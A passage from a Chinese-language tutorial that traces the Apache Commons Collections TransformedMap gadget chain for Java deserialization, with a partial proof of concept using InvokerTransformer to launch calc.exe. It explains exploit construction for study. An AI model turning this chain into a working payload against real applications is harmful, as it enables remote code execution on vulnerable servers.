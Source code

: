 ```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

返回了`valueTransformer.transform(value)`​,所以我们要看怎么样把`valueTransformer`​变为我们构造的`invokerTransformer`​对象

可以看到`TransformedMap`​的有参构造方法

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

接收三个参数,把第三个参数赋值给`valueTransformer`​

可以看到这个构造方法是`protected`​属性的,所以我们还需要找是谁调用了这个构造方法

可以找到`decorate`​这个方法

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

然后就可以来构造一个简单的`poc`​

```java
		InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
        Class<TransformedMap> transformedMapClass = TransformedMap.class;
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
        checkSetValueMethod.setAccessible(true);
        checkSetValueMethod.invoke(decorateMap, runtime);
```

但是走到decorate之后就不能够在往下面走了,我们重新回到`chekSetValue`​这里

重新查找一下有谁调用了`checkSetValue`​这个方法

发现在静态类`MapEntry`​中有一个`setValue`​方法调用了`checkSetValue`​方法

往上走发现是类`AbstractMapEntryDecorator`​中的`setValue`​方法

再往上走可以发现是`Map.java`​中的`setValue`​
